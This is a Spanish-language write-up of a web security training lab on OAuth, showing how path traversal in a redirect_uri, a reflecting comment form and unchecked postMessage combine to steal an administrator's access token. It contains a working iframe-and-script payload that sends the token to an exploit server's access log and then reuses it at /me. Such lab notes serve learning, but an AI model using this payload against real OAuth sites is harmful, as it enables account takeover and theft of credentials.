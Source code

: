 En esta clase final, se combina todo lo aprendido para construir un exploit completo. Se crea un iframe que inicia el flujo OAuth con el **redirect_uri** apuntando al formulario de comentarios vulnerable, el cual reflejará el token en su propiedad ‘**location.href**‘.

Debajo del iframe, se implementa un script que escucha eventos **message** desde el iframe, y envía los datos recibidos (incluyendo el token) como una petición al exploit server. Esto permite registrar en el access log el token de acceso del administrador.

Una vez recibido el token, se utiliza en el endpoint **/me** del blog para realizar una petición autenticada como el administrador. La respuesta devuelve los datos personales y la API key, la cual se emplea para resolver el laboratorio.

Este ejercicio demuestra cómo una combinación de path traversal, comportamiento de proxy inseguro y falta de restricciones en postMessage puede comprometer por completo una cuenta privilegiada en un entorno OAuth.

Solucion
Vamos a crear un script en nuestro exploit server
para hacer el iframe hay que inteceptar despues de deslogearnos y en el apartado de carga es ahi donde interceptamos vamos a poner el host y la parte de arriba y vamos a poner despues del callback el (/../post/comment/comment-form)
![[Pasted image 20250830193959.png]]
<'iframe src="https://oauth-0aab00270358900a80603d6d028500d5.oauth-server.net/auth?client_id=g2x5o5192ufzif2j33ser&redirect_uri=https://0ad9005203d590bb80333f79006900eb.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1641080511&scope=openid%20profile%20email"></iframe'>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
![[Pasted image 20250830194353.png]]
 le damos store enviamos a la victima y miramos los acces log recargando y vemos el access token 
![[Pasted image 20250830194512.png]]
lo pegamos en el authorization y le damos send
![[Pasted image 20250830194554.png]]
y ya solo copiamos la api key y pegamos en la pagina
![[Pasted image 20250830194626.png]]

 